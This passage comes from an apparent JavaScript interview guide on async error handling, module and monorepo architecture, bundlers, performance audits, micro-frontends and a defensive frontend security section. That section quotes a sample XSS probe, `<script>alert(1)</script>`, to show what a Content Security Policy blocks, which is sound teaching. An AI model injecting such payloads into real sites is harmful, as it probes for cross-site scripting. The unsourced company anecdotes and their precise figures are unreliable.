| Background tasks in Node.js | Worker threads + message passing | Non-blocking CPU work |

```js
// ── Team convention: async service layer pattern ──────────────────────────────

// ✅ Canonical pattern: async/await + typed Result object (no thrown errors from services)
type Result<T> =
  | { ok: true;  data: T }
  | { ok: false; error: string; code: number };

async function fetchUser(id: string): Promise<Result<User>> {
  try {
    const res = await fetch(`/api/users/${id}`);
    if (!res.ok) return { ok: false, error: 'Not found', code: res.status };
    const data = await res.json();
    return { ok: true, data };
  } catch (err) {
    return { ok: false, error: 'Network error', code: 0 };
  }
}

// Caller never needs try/catch — error is explicit in the type
const result = await fetchUser('42');
if (!result.ok) return showError(result.error);
renderUser(result.data);

// ── Enforcing the pattern: ESLint rules ──────────────────────────────────────
// .eslintrc — disallow raw Promise without .catch or await
// "@typescript-eslint/no-floating-promises": "error"
// "no-return-await": "off"  // allow return await for proper stack traces
// "@typescript-eslint/return-await": ["error", "in-try-catch"]

// ── Enforcing cancellation for all async operations in components ─────────────
// Team rule: every useEffect with async work MUST use AbortController
function useRemoteData<T>(url: string) {
  const [state, setState] = React.useState<Result<T> | null>(null);

  React.useEffect(() => {
    const controller = new AbortController();
    let cancelled = false;

    (async () => {
      try {
        const res  = await fetch(url, { signal: controller.signal });
        const data = await res.json() as T;
        if (!cancelled) setState({ ok: true, data });
      } catch (err) {
        if (!cancelled && (err as Error).name !== 'AbortError') {
          setState({ ok: false, error: String(err), code: 0 });
        }
      }
    })();

    return () => { cancelled = true; controller.abort(); };
  }, [url]);

  return state;
}

// ── Team convention: retry with exponential backoff is a shared utility ───────
// Bad: every developer rolls their own retry logic
// Good: one canonical withRetry() in @company/utils, reviewed, tested, shared
import { withRetry } from '@company/utils/async';
const data = await withRetry(() => fetchCriticalData(), { maxAttempts: 3 });
```

**Real-World Use Case:**

Netflix\'s UI platform team standardised on RxJS for all user interaction streams (search autocomplete, play button state machines, connection quality monitoring) but `async`/`await` for all API calls. This hybrid strategy was enforced by a custom ESLint plugin that flagged using `Subscription` patterns for simple one-shot API calls (where `async`/`await` is clearer) and using raw Promises for event streams (where Observable cancellation and retry operators are superior). The tooling decision eliminated an entire class of memory leaks from unsubscribed Observables.

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. How do you handle async error boundaries and observability in a distributed frontend?

In large SPAs and micro-frontend architectures, errors fall into four categories that require different handling strategies:

| Error type | Where it occurs | Handling mechanism |
|---|---|---|
| Synchronous render errors | React component tree | React Error Boundaries |
| Async/Promise rejections | Event handlers, effects | `window.unhandledrejection` + Error Boundary |
| Network errors | API calls | Service layer Result type + UI error states |
| Unexpected global errors | Any code | `window.onerror` + crash reporter |

```js
// ── React Error Boundary — catches sync render errors ────────────────────────
class ErrorBoundary extends React.Component {
  state = { hasError: false, error: null };

  static getDerivedStateFromError(error) {
    return { hasError: true, error };
  }

  componentDidCatch(error, info) {
    // Ship to error monitoring (Sentry, Datadog)
    errorReporter.captureException(error, {
      extra: { componentStack: info.componentStack },
      tags:  { section: this.props.section },
    });
  }

  render() {
    if (this.state.hasError) {
      return this.props.fallback ?? <GenericErrorFallback />;
    }
    return this.props.children;
  }
}

// Usage — scope boundaries to UI sections, not just the app root
<ErrorBoundary section="checkout" fallback={<CheckoutErrorFallback />}>
  <CheckoutFlow />
</ErrorBoundary>

// ── Global async error capture ────────────────────────────────────────────────
// Catches Promise rejections not handled by try/catch or .catch()
window.addEventListener('unhandledrejection', (event) => {
  event.preventDefault(); // suppress default browser console error
  errorReporter.captureException(event.reason, {
    extra: { type: 'unhandledRejection' },
  });
});

window.addEventListener('error', (event) => {
  errorReporter.captureException(event.error, {
    extra: { filename: event.filename, line: event.lineno },
  });
});

// ── Correlation IDs for distributed tracing ───────────────────────────────────
// Every API call carries a trace ID that links frontend errors to backend logs
const traceId = crypto.randomUUID();

const tracedFetch = (url, options = {}) => fetch(url, {
  ...options,
  headers: {
    ...options.headers,
    'X-Trace-Id':   traceId,
    'X-Session-Id': getSessionId(),
  },
});

// Sentry integration — attach trace context automatically
Sentry.init({
  dsn: process.env.SENTRY_DSN,
  integrations: [
    new Sentry.BrowserTracing(),
    new Sentry.Replay({ maskAllText: true }),  // GDPR-safe session replay
  ],
  tracesSampleRate: 0.1,  // 10% of transactions
  replaysOnErrorSampleRate: 1.0, // 100% on errors
});
```

**Real-World Use Case:**

Slack\'s web frontend uses a multi-layer error strategy: React Error Boundaries per workspace panel (so a broken sidebar doesn\'t crash the message list), `unhandledrejection` capture shipping to their internal error aggregation pipeline, and a correlation ID on every API request that links a user-visible error in Sentry to the precise backend trace in Jaeger. When an incident occurs, an on-call engineer can go from "user reports blank screen" to the exact server-side exception in under 2 minutes — only possible because the frontend error captures the same trace ID as the backend logs.

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## # 34. Module Architecture

<br>

## Q. How should you organise modules, barrel files, and dependency boundaries in a large JavaScript codebase?

**Module organisation** at scale requires deliberate structure. The most common pattern is **feature-based (vertical slice) architecture** rather than type-based (horizontal layers), because it co-locates everything a feature needs, making it easier to delete features and reason about dependency boundaries.

**Barrel files** (`index.ts` re-exporting from a directory) are convenient but dangerous: they create implicit dependencies that prevent tree-shaking, cause circular dependency chains, and significantly slow TypeScript compilation at scale.

```
// ❌ Type-based (horizontal layers) — tight coupling across features
src/
  components/  UserCard.tsx, ProductCard.tsx, OrderTable.tsx
  hooks/       useUser.ts, useProducts.ts, useOrders.ts
  services/    userService.ts, productService.ts
  utils/       formatDate.ts, formatCurrency.ts

// ✅ Feature-based (vertical slices) — high cohesion, explicit boundaries
src/
  features/
    user/
      UserCard.tsx
      useUser.ts
      userService.ts
      user.types.ts
      index.ts        ← barrel: ONLY exports the public API of this feature
    product/
      ProductCard.tsx
      ...
      index.ts
  shared/             ← truly cross-feature utilities only
    utils/
      formatDate.ts
    components/
      Button.tsx
```

```js
// ── Barrel file discipline ────────────────────────────────────────────────────
// features/user/index.ts — explicit public API
export { UserCard }    from './UserCard';
export { useUser }     from './useUser';
export type { User }   from './user.types';
// Do NOT re-export userService — it is internal implementation detail

// Consumer
import { UserCard, useUser } from '@/features/user'; // ✅ imports from barrel
// Never: import { userService } from '@/features/user/userService'; // internal!

// ── Dependency rules — enforced by ESLint import/no-restricted-paths ─────────
// Rule: features must NOT import from other features directly
// They communicate via shared interfaces or the parent orchestrator

// .eslintrc
{
  "rules": {
    "import/no-restricted-paths": ["error", {
      "zones": [
        {
          // features/user cannot import from features/product
          "target": "./src/features/user",
          "from":   "./src/features/product"
        }
      ]
    }],
    "import/no-cycle": ["error", { "maxDepth": 2 }]  // block circular deps
  }
}

// ── Detecting circular dependencies ──────────────────────────────────────────
// madge — visualise and detect circular deps in CI
// npx madge --circular --extensions ts src/
// Fails CI if any cycle is detected

// ── Path aliases — avoid deep relative imports ───────────────────────────────
// tsconfig.json
{
  "compilerOptions": {
    "paths": {
      "@/*": ["./src/*"],
      "@features/*": ["./src/features/*"],
      "@shared/*":   ["./src/shared/*"]
    }
  }
}
// Instead of: import { Button } from '../../../shared/components/Button'
// Use:        import { Button } from '@shared/components/Button'
```

**Real-World Use Case:**

Spotify\'s web player migrated from a monolithic feature layout to vertical slice architecture with strict barrel-file discipline after their TypeScript compilation time exceeded 4 minutes. The root cause was barrel files that inadvertently imported the entire `@emotion/react` theme object into every feature, creating a 500-module chain for what should have been a 10-module import. After enforcing the `import/no-cycle` ESLint rule and trimming barrel exports to only the feature\'s public API, compilation dropped to 45 seconds — a 5× improvement with zero code logic changes.

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. What are the trade-offs between monorepo and polyrepo, and how do you manage shared code?

This is one of the most consequential architectural decisions for a frontend platform team. The choice affects CI speed, dependency management, code sharing, team autonomy, and onboarding.

| Dimension | Monorepo | Polyrepo |
|---|---|---|
| Code sharing | Trivial — import directly | Requires publishing npm packages |
| Atomic cross-package changes | ✅ One PR, one commit | ❌ Multiple coordinated PRs |
| CI complexity | Higher (affected package detection) | Lower per-repo, higher overall |
| Team autonomy | Lower (shared tooling, shared CI) | Higher |
| Dependency versioning | Single version per dep (no diamond) | Risk of version mismatches |
| Tooling | Nx, Turborepo, Lerna, Bazel | Standard npm/yarn per repo |

```js
// ── Turborepo monorepo structure ──────────────────────────────────────────────
// packages/
//   ui/          @company/ui — shared design system
//   utils/       @company/utils — shared utility functions
//   api-client/  @company/api-client — typed API client
// apps/
//   web/         main Next.js application
//   admin/       admin dashboard
//   mobile/      React Native app

// turbo.json — pipeline: only rebuild what changed
{
  "pipeline": {
    "build": {
      "dependsOn": ["^build"],  // build deps first
      "outputs": [".next/**", "dist/**"]
    },
    "test": {
      "dependsOn": ["^build"],
      "outputs": ["coverage/**"]
    },
    "lint": { "outputs": [] }
  }
}

// Shared package: packages/utils/src/index.ts
export { formatCurrency } from './formatCurrency';
export { debounce }       from './debounce';
export { withRetry }      from './withRetry';

// Consumer app: apps/web/package.json
{
  "dependencies": {
    "@company/utils": "workspace:*",  // pnpm workspace protocol
    "@company/ui":    "workspace:*"
  }
}

// Changesets — versioning and changelog for monorepo packages
// npx changeset  → developer describes what changed
// npx changeset version → bumps package versions and generates CHANGELOG
// npx changeset publish → publishes to npm registry
```

**Real-World Use Case:**

Vercel, Meta (React), and Google all use monorepos (with Turborepo, Buck2, and Blaze/Bazel respectively). Turborepo\'s remote caching means a developer who runs `turbo build` on a branch that shares most of its changes with `main` gets cache hits for unaffected packages from the shared cloud cache — reducing a 10-minute full build to under 30 seconds. Conversely, Stripe uses a polyrepo approach with a private npm registry (via `verdaccio`) for shared packages, favouring team autonomy over atomic changes.

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## # 35. Error Handling Strategy

<br>

## Q. How do you design a centralised error handling strategy for a large JavaScript application?

Ad-hoc `try/catch` blocks scattered throughout the codebase create inconsistent error messages, missing observability, and duplicated retry logic. A centralised strategy separates **error classification**, **error handling**, and **error reporting** into distinct layers.

**Error taxonomy:**

| Error type | Recoverability | User-visible | Example |
|---|---|---|---|
| Validation error | ✅ Recoverable | ✅ Yes | Invalid form input |
| Network/API error | ✅ Recoverable (retry) | ✅ Yes | HTTP 503, timeout |
| Auth error | ✅ Recoverable (re-auth) | ✅ Yes | HTTP 401 |
| Business rule error | ✅ Recoverable | ✅ Yes | Insufficient balance |
| Unexpected/programmer error | ❌ Non-recoverable | ⚠️ Generic | TypeError, RangeError |

```js
// ── 1. Typed custom error hierarchy ──────────────────────────────────────────
class AppError extends Error {
  constructor(
    message,
    public readonly code,
    public readonly statusCode = 500,
    public readonly isOperational = true  // false = programmer error = crash
  ) {
    super(message);
    this.name = this.constructor.name;
    Error.captureStackTrace(this, this.constructor);
  }
}

class ValidationError  extends AppError {
  constructor(message, public readonly fields = {}) {
    super(message, 'VALIDATION_ERROR', 422);
  }
}
class NotFoundError    extends AppError { constructor(r) { super(`${r} not found`, 'NOT_FOUND', 404); } }
class UnauthorizedError extends AppError { constructor() { super('Unauthorized', 'UNAUTHORIZED', 401); } }
class NetworkError      extends AppError {
  constructor(message, public readonly retryable = true) {
    super(message, 'NETWORK_ERROR', 0);
  }
}

// ── 2. Centralised error handler (Express) ───────────────────────────────────
app.use((err, req, res, next) => {
  // Log all errors with context
  logger.error({
    message:    err.message,
    code:       err.code,
    stack:      err.stack,
    requestId:  req.headers['x-request-id'],
    userId:     req.user?.id,
    path:       req.path,
    method:     req.method,
  });

  // Non-operational errors: crash fast in development, generic response in production
  if (!err.isOperational) {
    if (process.env.NODE_ENV !== 'production') throw err;
    return res.status(500).json({ error: 'Internal server error' });
  }

  // Operational errors: send structured response
  res.status(err.statusCode ?? 500).json({
    error:  err.message,
    code:   err.code,
    fields: err instanceof ValidationError ? err.fields : undefined,
  });
});

// ── 3. Client-side API error handler ─────────────────────────────────────────
async function apiRequest(url, options = {}) {
  try {
    const res = await fetch(url, options);

    if (res.status === 401) throw new UnauthorizedError();
    if (res.status === 404) throw new NotFoundError(url);

    if (!res.ok) {
      const body = await res.json().catch(() => ({}));
      throw new AppError(
        body.error ?? `HTTP ${res.status}`,
        body.code  ?? 'API_ERROR',
        res.status
      );
    }

    return res.json();
  } catch (err) {
    if (err instanceof AppError) throw err;  // re-throw structured errors
    throw new NetworkError(err.message);     // wrap unexpected fetch errors
  }
}

// ── 4. React integration — error state in UI layer ───────────────────────────
function useApiData(url) {
  const [state, setState] = React.useState({ data: null, error: null, loading: true });

  React.useEffect(() => {
    const ctrl = new AbortController();
    apiRequest(url, { signal: ctrl.signal })
      .then(data  => setState({ data, error: null,       loading: false }))
      .catch(err  => {
        if (err.name === 'AbortError') return;
        if (err instanceof UnauthorizedError) redirectToLogin();
        setState({ data: null, error: err.message, loading: false });
      });
    return () => ctrl.abort();
  }, [url]);

  return state;
}
```

**Real-World Use Case:**

Stripe\'s Node.js library (`stripe` npm package) implements a clean error hierarchy: `StripeCardError`, `StripeInvalidRequestError`, `StripeAuthenticationError`, `StripeAPIError` — all extending `StripeError`. Every method returns a known error type with a `code`, `statusCode`, `param`, and `decline_code` field. This allows merchant applications to write precise error handling: `if (err.code === 'card_declined') showDeclineMessage(err.decline_code)` — a pattern that Stripe credits with reducing incorrect error handling in merchant integrations by over 60% compared to generic Error objects.

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## # 36. Performance Review

<br>

## Q. As a tech lead, how do you conduct a performance review of a JavaScript codebase — what do you look for and how do you prioritise fixes?

A performance review is a systematic audit across three dimensions: **runtime performance** (CPU, memory), **network performance** (bundle size, waterfall), and **rendering performance** (paint, layout, interactivity). The output should be a prioritised backlog with expected impact, not a list of micro-optimisations.

**Audit checklist by category:**

**Bundle size (highest ROI for perceived performance):**
- Run `webpack-bundle-analyzer` or `source-map-explorer` — identify unexpected large dependencies.
- Check for duplicate dependencies (`npm ls <package>` or `bundlewatch` CI check).
- Audit for unused imports that bypass tree-shaking (e.g., `import _ from 'lodash'` vs `import debounce from 'lodash/debounce'`).
- Verify route-based code splitting is in place — no single JS chunk > 200 KB gzipped.

**Runtime (CPU):**
- Profile with Chrome DevTools → Performance tab → look for long tasks (> 50ms) in the flame graph.
- Check for N+1 re-renders in React with React DevTools Profiler.
- Audit `useEffect` dependency arrays for referentially unstable objects/functions.

**Memory:**
- Chrome DevTools → Memory → Heap Snapshot. Compare before/after a repeated user action.
- Check for event listeners not cleaned up on unmount.
- Look for unbounded caches (growing `Map`s/`Set`s appended to but never evicted).

**Rendering:**
- Chrome DevTools → Performance → enable "Layout" track → look for forced reflows (purple bars).
- Audit CSS animations: `top`/`left` changes (reflow) vs `transform` (compositor only).

```js
// ── Bundle size: tree-shaking fix ─────────────────────────────────────────────
// ❌ Imports entire lodash (70 KB gzipped)
import _ from 'lodash';
const result = _.debounce(fn, 300);

// ✅ Import only what you need (< 1 KB)
import debounce from 'lodash/debounce';
// Or use native implementation — no dependency at all:
const debounce = (fn, ms) => { let t; return (...a) => { clearTimeout(t); t = setTimeout(() => fn(...a), ms); }; };

// ── React render audit: unstable references ───────────────────────────────────
// ❌ Causes ALL child components to re-render on every parent render
function Parent() {
  const config = { pageSize: 20 };      // new object reference every render
  const onLoad = () => fetchData();     // new function reference every render
  return <DataGrid config={config} onLoad={onLoad} />;
}

// ✅ Stable references — only re-render children when values actually change
const GRID_CONFIG = { pageSize: 20 };    // module-level constant
function Parent() {
  const onLoad = React.useCallback(() => fetchData(), []);
  return <DataGrid config={GRID_CONFIG} onLoad={onLoad} />;
}

// ── Performance budget in CI ──────────────────────────────────────────────────
// bundlewatch.config.js — fail CI if bundle exceeds budget
module.exports = {
  files: [
    { path: './dist/main.*.js',   maxSize: '150 kB' },
    { path: './dist/vendor.*.js', maxSize: '250 kB' },
    { path: './dist/main.*.css',  maxSize: '30 kB'  },
  ],
};
// CI: npx bundlewatch — fails with diff if any budget is exceeded

// ── Core Web Vitals monitoring ────────────────────────────────────────────────
import { onLCP, onFID, onCLS, onINP, onTTFB } from 'web-vitals';

function sendToAnalytics({ name, value, rating, id }) {
  // rating: 'good' | 'needs-improvement' | 'poor'
  analytics.track('web_vital', { name, value, rating, id, url: location.href });
}

onLCP(sendToAnalytics);  // Largest Contentful Paint  — target < 2.5s
onINP(sendToAnalytics);  // Interaction to Next Paint  — target < 200ms
onCLS(sendToAnalytics);  // Cumulative Layout Shift    — target < 0.1
onTTFB(sendToAnalytics); // Time to First Byte         — target < 800ms
```

**Prioritisation matrix:**

| Fix | Effort | Impact | Do first? |
|---|---|---|---|
| Add route-based code splitting | Low | Very High (LCP -40%) | ✅ Yes |
| Replace lodash with tree-shaken imports | Low | Medium | ✅ Yes |
| Add `React.memo` + `useCallback` to frequently re-rendering lists | Medium | High | ✅ Yes |
| Replace `top`/`left` animations with `transform` | Low | High (jank elimination) | ✅ Yes |
| Migrate to streaming SSR | High | Medium | Later |
| WebAssembly for a single CPU-bound algorithm | Very High | Low | Probably never |

**Real-World Use Case:**

The Google Chrome team\'s annual "State of the Web" report consistently shows that bundle size is the single largest controllable factor in LCP for JavaScript-heavy sites. Airbnb conducted a performance review in 2022 that identified `moment.js` (67 KB gzipped) being imported in 40 components when only `date-fns/format` (2 KB) was needed. Replacing it saved 65 KB from the initial bundle and reduced Time-to-Interactive by 800ms on 3G connections — a single `webpack-bundle-analyzer` session worth millions of dollars in conversion rate improvement.

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## L6: Technical Architect

<br>

## # 37. Micro-Frontend Architecture

<br>

## Q. What is micro-frontend architecture and how do you implement it with Webpack 5 Module Federation?

Micro-frontends extend the microservices idea to the frontend: the UI is decomposed into independently developed, tested, and deployed applications owned by different teams. The key architectural challenge is **runtime composition** \u2014 how to stitch independently deployed bundles together in the browser without requiring a full rebuild of the shell application.

**Approaches ranked by isolation vs integration trade-off:**

| Approach | Isolation | Integration complexity | Shared state | Use when |
|---|---|---|---|---|
| `<iframe>` | Maximum | Low | Hard | Third-party content, maximum security boundary |
| Webpack Module Federation | Medium | Medium | Easy (singletons) | Same-org teams, React/shared dependencies |
| Web Components | Medium | Low | Medium | Cross-framework teams, design system |
| `single-spa` framework | Low | High | Easy | Migrating legacy apps |
| Build-time composition | None | Low | Trivial | Small teams, short-term monolith split |

**Real-World Use Case:**

IKEA decomposed their e-commerce frontend using Module Federation: the product catalog, cart, checkout, and account sections are owned by separate teams deploying independently to their respective CDNs. The shell application fetches `remoteEntry.js` at runtime, meaning a bug fix in the checkout team\'s code is live for all users within minutes of their CI pipeline completing \u2014 with zero coordination required from the shell team. The `singleton: true` constraint on React ensures that despite six independent bundles, there is exactly one React reconciler instance, which is critical for shared context (Auth, i18n, design tokens) to work correctly.

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. What are the key pitfalls of micro-frontend architecture and how do you mitigate them?

Micro-frontends introduce organisational scalability but create five engineering challenges that must be addressed proactively:

| Pitfall | Symptom | Mitigation |
|---|---|---|
| Dependency version mismatch | Multiple React instances \u2192 hook errors | `singleton: true` in Module Federation shared config |
| Style conflicts | CSS class name collisions | CSS Modules, CSS-in-JS, or BEM namespacing per MFE |
| Performance \u2014 duplicate vendor bundles | 3\u00d7 React loaded | Module Federation shared modules |
| Auth/session ownership | Each MFE duplicates auth logic | Shell owns auth; passes token via context or custom event |
| Integration testing difficulty | Works in isolation, breaks in composition | Contract testing (Pact), integration test environments |

**Real-World Use Case:**

SAP Fiori Elements uses Web Components as the integration mechanism for their micro-frontend platform (SAP UI5 Web Components), allowing teams using Angular, React, or Vue to render the same design system components in their MFE without shipping duplicate framework code. This is the pattern recommended when MFEs are owned by different technology stacks \u2014 Module Federation requires both sides to use webpack, while Web Components work with any build tool.

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## # 38. Bundle & Runtime Optimization

<br>


## Q. What is Webpack and how does it work?

**Webpack** is a static module bundler for JavaScript applications. It takes modules (JS, CSS, images, etc.) as input and produces optimised bundles as output — resolving all inter-module dependencies into a **dependency graph**.

**Core concepts:**

| Concept | Description |
|---------|-------------|
| **Entry** | The starting point(s) for the dependency graph |
| **Output** | Where and how to emit the resulting bundles |
| **Loaders** | Transform non-JS files (e.g. TypeScript, CSS, images) into modules |
| **Plugins** | Perform broader build tasks (minification, HTML generation, env injection) |
| **Mode** | `development` (readable output) or `production` (optimised/minified) |

**Minimal `webpack.config.js`:**

```js
const path = require('path');
const HtmlWebpackPlugin = require('html-webpack-plugin');

module.exports = {
  entry: './src/index.js',
  output: {
    filename: '[name].[contenthash].js',
    path: path.resolve(__dirname, 'dist'),
    clean: true
  },
  mode: 'production',
  module: {
    rules: [
      {
        test: /\.tsx?$/,
        use: 'ts-loader',
        exclude: /node_modules/
      },
      {
        test: /\.css$/,
        use: ['style-loader', 'css-loader']
      }
    ]
  },
  plugins: [
    new HtmlWebpackPlugin({ template: './src/index.html' })
  ]
};
```

**Code Splitting:**

Split bundles to load only what is needed:

```js
// Dynamic import — webpack creates a separate chunk automatically
const { add } = await import('./math.js');
```

**Tree Shaking:**

Webpack (in production mode) removes dead code — exported functions that are never imported.

```js
// math.js
export function add(a, b) { return a + b; }
export function subtract(a, b) { return a - b; } // unused → removed in bundle

// app.js
import { add } from './math.js'; // only `add` is bundled
```

**Module Federation (Webpack 5):**

Allows multiple independently deployed builds to share modules at runtime — the foundation of micro-frontends.

```js
// Remote app (exposes a component)
new ModuleFederationPlugin({
  name: 'remoteApp',
  filename: 'remoteEntry.js',
  exposes: { './Button': './src/Button' }
});

// Host app (consumes the remote component)
new ModuleFederationPlugin({
  remotes: { remoteApp: 'remoteApp@http://localhost:3001/remoteEntry.js' }
});
```

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. What are Parcel and Rollup bundlers?

**Parcel:**

Parcel is a zero-configuration bundler. It automatically detects and configures loaders, supports hot module replacement (HMR), and handles CSS, images, and TypeScript out of the box.

```bash
# Install
npm install --save-dev parcel

# Bundle (no config file needed)
npx parcel src/index.html
```

**Rollup:**

Rollup is a module bundler optimised for building **libraries**. It produces extremely clean output and pioneered tree-shaking for ES modules.

```js
// rollup.config.js
import resolve  from '@rollup/plugin-node-resolve';
import commonjs from '@rollup/plugin-commonjs';
import terser   from '@rollup/plugin-terser';

export default {
  input: 'src/index.js',
  output: [
    { file: 'dist/bundle.esm.js', format: 'esm' },
    { file: 'dist/bundle.cjs.js', format: 'cjs' }
  ],
  plugins: [resolve(), commonjs(), terser()]
};
```

| Feature | Webpack | Parcel | Rollup |
|---------|---------|--------|--------|
| Config | Required | Zero-config | Simple |
| Best for | Apps | Apps (rapid setup) | Libraries |
| Tree shaking | ✅ | ✅ | ✅ (best) |
| Code splitting | ✅ | ✅ | ✅ |
| HMR | ✅ | ✅ built-in | ❌ (via plugin) |

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. What is Babel and how does transpilation work?

**Babel** is a JavaScript transpiler (source-to-source compiler) that converts modern JavaScript (ES6+) into a backwards-compatible version for older browsers or environments that don\'t support the latest syntax.

**How it works:**

1. **Parse** — Source code is parsed into an AST (Abstract Syntax Tree).
2. **Transform** — Plugins traverse and modify the AST (e.g. convert arrow functions to regular functions).
3. **Generate** — The modified AST is printed back to JavaScript source code.

**Installation:**

```bash
npm install --save-dev @babel/core @babel/cli @babel/preset-env
```

**`babel.config.json`:**

```json
{
  "presets": [
    ["@babel/preset-env", {
      "targets": "> 0.25%, not dead",
      "useBuiltIns": "usage",
      "corejs": 3
    }]
  ],
  "plugins": ["@babel/plugin-transform-class-properties"]
}
```

**Example transformation:**

```js
// Input (ES6+)
const greet = name => `Hello, ${name}!`;
const [a, b, ...rest] = [1, 2, 3, 4];

// Output (ES5)
"use strict";
var greet = function greet(name) {
  return "Hello, " + name + "!";
};
var _ref = [1, 2, 3, 4], a = _ref[0], b = _ref[1], rest = _ref.slice(2);
```

**Polyfills vs. transpilation:**

* **Transpilation** handles *syntax* (arrow functions, destructuring, classes).
* **Polyfills** (`core-js`, `regenerator-runtime`) handle missing *runtime APIs* (`Promise`, `Array.from`, generators).

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## Q. What are ESLint, Husky, and Git Hooks?

**ESLint:**

ESLint is a static analysis tool that identifies and reports patterns in JavaScript code, catching bugs and enforcing coding standards before runtime.

```bash
npm install --save-dev eslint
npx eslint --init
```

**`.eslintrc.json`:**

```json
{
  "env": { "browser": true, "es2021": true },
  "extends": ["eslint:recommended"],
  "rules": {
    "no-console": "warn",
    "eqeqeq": "error",
    "no-unused-vars": "error",
    "prefer-const": "error"
  }
}
```

```bash
npx eslint src/          # lint files
npx eslint src/ --fix    # auto-fix fixable issues
```

**Git Hooks:**

Git hooks are scripts that run automatically at specific points in the Git workflow (e.g. before a commit, before a push). They live in `.git/hooks/` but can be managed by tools.

**Husky:**

Husky is a tool that makes Git hooks easy to configure via `package.json`.

```bash
npm install --save-dev husky lint-staged
npx husky install
```

**`package.json`:**

```json
{
  "scripts": {
    "prepare": "husky install"
  },
  "lint-staged": {
    "*.{js,ts}": ["eslint --fix", "prettier --write"]
  }
}
```

**`.husky/pre-commit`:**

```bash
#!/bin/sh
npx lint-staged
```

**Common hooks:**

| Hook | When it runs | Typical use |
|------|-------------|-------------|
| `pre-commit` | Before a commit is created | Lint, format, run unit tests |
| `commit-msg` | After commit message is entered | Validate commit message format |
| `pre-push` | Before code is pushed | Run full test suite |

<div align="right">
    <b><a href="#table-of-contents">↥ back to top</a></b>
</div>

## # 39. Security Architecture

<br>

## Q. How do you design a comprehensive security architecture for a large-scale JavaScript frontend?

Frontend security architecture is not a checklist — it is a layered defence strategy ("defence in depth") where each layer limits the blast radius of a compromise in any other layer. The five pillars are: **CSP**, **CORS**, **dependency supply chain**, **auth/session security**, and **secrets management**.

**1. Content Security Policy (CSP) — the most impactful mitigation against XSS**

CSP is an HTTP response header that tells the browser which origins may execute scripts. Even if an attacker injects `<script>alert(1)</script>`, the browser refuses to execute it if the source is not whitelisted.

```js
// ── Nonce-based CSP (preferred over hash-based for SPAs) ─────────────────────
// Server generates a cryptographically random nonce per request
const nonce = crypto.randomBytes(16).toString('base64');

// CSP header
res.setHeader('Content-Security-Policy',
  `default-src 'self'; ` +
  `script-src 'nonce-${nonce}' 'strict-dynamic'; ` +   // only scripts with matching nonce
  `style-src 'self' 'nonce-${nonce}'; ` +
  `img-src 'self' https://cdn.company.com data:; ` +
  `connect-src 'self' https://api.company.com; ` +
  `object-src 'none'; ` +
  `base-uri 'self'; ` +
  `frame-ancestors 'none'`                              // prevents clickjacking
);

// HTML: only scripts with the matching nonce execute
// <script nonce="${nonce}" src="/app.js"></script>

// 'strict-dynamic' — trust dynamically created scripts from trusted scripts
// This allows React, webpack bundles with dynamic imports to work
// without listing every chunk URL

// ── CSP violation reporting ──────────────────────────────────────────────────
// report-to header sends violation reports to your monitoring endpoint
res.setHeader('Reporting-Endpoints', 'csp-endpoint="https://api.company.com/csp-report"');
res.setHeader('Content-Security-Policy',
  `... report-to csp-endpoint`
);

// /csp-report endpoint logs blocked injection attempts — alert on spikes
```

**2. CORS (Cross-Origin Resource Sharing) — API server configuration**

```js
// ── Express CORS configuration ──────────────────────────────────────────────────
const ALLOWED_ORIGINS = new Set([
  'https://app.company.com',
  'https://admin.company.com',
  ...(process.env.NODE_ENV === 'development' ? ['http://localhost:3000'] : []),
]);

app.use((req, res, next) => {
  const origin = req.headers.origin;

  // ❌ NEVER: Access-Control-Allow-Origin: * with credentials
  // ❌ NEVER: Access-Control-Allow-Origin: ${origin} without allowlist check

  if (ALLOWED_ORIGINS.has(origin)) {
    res.setHeader('Access-Control-Allow-Origin',       origin);
    res.setHeader('Access-Control-Allow-Credentials', 'true');  // for cookies
    res.setHeader('Vary', 'Origin');  // CRITICAL: tells CDN to cache per origin
  }

  if (req.method === 'OPTIONS') {
    // Preflight response
    res.setHeader('Access-Control-Allow-Methods', 'GET,POST,PUT,DELETE,PATCH');
    res.setHeader('Access-Control-Allow-Headers', 'Content-Type,Authorization,X-Request-Id');
    res.setHeader('Access-Control-Max-Age', '86400');  // cache preflight for 24h
    return res.sendStatus(204);
  }

  next();
});
```

**3. Supply chain security**

```bash
# ── Dependency security toolchain ───────────────────────────────────────────────
# 1. Lock file integrity — always commit package-lock.json or pnpm-lock.yaml
# 2. npm audit in CI — fail on high/critical vulnerabilities
npm audit --audit-level=high

# 3. Subresource Integrity for CDN scripts (prevents CDN compromise)
# <script src="https://cdn.jsdelivr.net/npm/lodash@4.17.21/lodash.min.js"
#         integrity="sha384-..."
#         crossorigin="anonymous"></script>

# 4. Automated dependency updates
# Dependabot (.github/dependabot.yml) or Renovate — auto-creates PRs for updates
# Combine with auto-merge for patch updates that pass CI
```

```js
// ── Secrets: never in client-side JavaScript ───────────────────────────────────
// ❌ NEVER: API keys, database credentials, signing secrets in frontend bundles
// They are visible to any user via DevTools > Sources
const client = new Stripe(process.env.REACT_APP_STRIPE_SECRET_KEY); // ❌

// ✅ Frontend only uses publishable/public keys
const client = new Stripe(process.env.REACT_APP_STRIPE_PUBLISHABLE_KEY); // ✅
// Secret operations (e.g., capture payment) done server-side only

// ── Additional security headers (Helmet.js in Express) ───────────────────────
import helmet from 'helmet';
app.use(helmet());  // Sets: X-Frame-Options, X-Content-Type-Options,
                   // Strict-Transport-Security, Permissions-Policy
```

**Real-World Use Case:**

